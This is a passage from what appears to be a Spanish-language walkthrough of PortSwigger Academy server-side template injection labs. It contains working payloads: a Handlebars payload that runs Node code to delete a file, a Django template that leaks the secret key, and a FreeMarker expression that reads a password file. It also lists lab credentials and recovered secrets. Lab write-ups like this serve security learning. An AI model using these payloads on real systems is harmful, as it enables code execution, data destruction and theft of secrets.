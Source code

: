 ```
    {{/with}}
  {{/with}}
{{/with}}
```

Luego basta con encodear el mismo y enviarlo como valor del parámetro message.

#### Solución:

Ir a LABID.web-security-academy.net/?message=wrtz{{%23with "s" as |string|}}%0A%20 {{%23with "e"}}%0A%20%20%20 {{%23with split as |conslist|}}%0A%20%20%20%20%20 {{this.pop}}%0A%20%20%20%20%20 {{this.push (lookup string.sub "constructor")}}%0A%20%20%20%20%20 {{this.pop}}%0A%20%20%20%20%20 {{%23with string.split as |codelist|}}%0A%20%20%20%20%20%20%20 {{this.pop}}%0A%20%20%20%20%20%20%20 {{this.push "return require('fs').unlinkSync('%2Fhome%2Fcarlos%2Fmorale.txt')%3B"}}%0A%20%20%20%20%20%20%20 {{this.pop}}%0A%20%20%20%20%20%20%20 {{%23each conslist}}%0A%20%20%20%20%20%20%20%20%20 {{%23with (string.sub.apply 0 codelist)}}%0A%20%20%20%20%20%20%20%20%20%20%20 {{this}}%0A%20%20%20%20%20%20%20%20%20 {{%2Fwith}}%0A%20%20%20%20%20%20%20 {{%2Feach}}%0A%20%20%20%20%20 {{%2Fwith}}%0A%20%20%20 {{%2Fwith}}%0A%20 {{%2Fwith}}%0A{{%2Fwith}}

### [Server-side template injection with information disclosure via user-supplied objects](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-with-information-disclosure-via-user-supplied-objects)

#### Descripción

1. Iniciar sesión con las credenciales brindadas (content-manager:C0nt3ntM4n4g3r)
2. Editar la descripción de un producto, ingresar {{7+'7'}} para obtener un error, determinando así que se está utilizando Django
3. Ingresar {{settings.SECRET_KEY}} para obtener la secret key del framework

#### Solución encontrada:

ce7yt92pn5jo8evzdf6hpmi144g0e9zd

### [Server-side template injection in a sandboxed environment](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-in-a-sandboxed-environment)

#### Descripción

1. Iniciar sesión con las credenciales brindadas (content-manager:C0nt3ntM4n4g3r)
2. Editar la descripción de un producto, ingresar \${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/home/carlos/my_password.txt').toURL().openStream().readAllBytes()?join(" ")}
3. Convertir el resultado obtenido de bytes en código ASCII a string

#### Solución encontrada:

k67lsge9ztl9117fcefl
